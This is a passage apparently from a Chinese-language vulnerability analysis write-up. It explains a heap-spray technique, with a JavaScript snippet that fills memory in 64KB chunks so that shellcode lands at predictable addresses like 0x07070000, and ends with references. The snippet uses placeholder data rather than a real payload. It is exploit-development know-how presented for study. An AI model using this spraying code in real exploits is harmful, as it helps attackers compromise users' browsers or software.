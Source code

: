 ![spray_diagram](spray_diagram.png)

所以作者用这样的方式

```javascript
    var shellcode = "\u4141";

    while (shellcode.length < 100000)
        shellcode = shellcode + shellcode;

    var onemeg = shellcode.substr(0, 64*1024/2);

    for (i=0; i<14; i++) {
        onemeg += shellcode.substr(0, 64*1024/2);
    }

    onemeg += shellcode.substr(0, (64*1024/2)-(38/2)); 
```

分配64k X 16 X 100的方式分配100M的内存,这样的话,由于64k对其的原因,shellcode会存在0xXXXX0024的位置

poc中使用的就是这种方式, 使用的64k X 16 X 400分配 400M的空间 也就是0x19000000 这样的话07070000这个位置就很可能被分配了内存



## 4.参考资料

1. http://c00c.cc/1493200282.html
2. http://www.exploit-monday.com/2011/08/targeted-heap-spraying-0x0c0c0c0c-is.html、
3. <<漏洞战争>>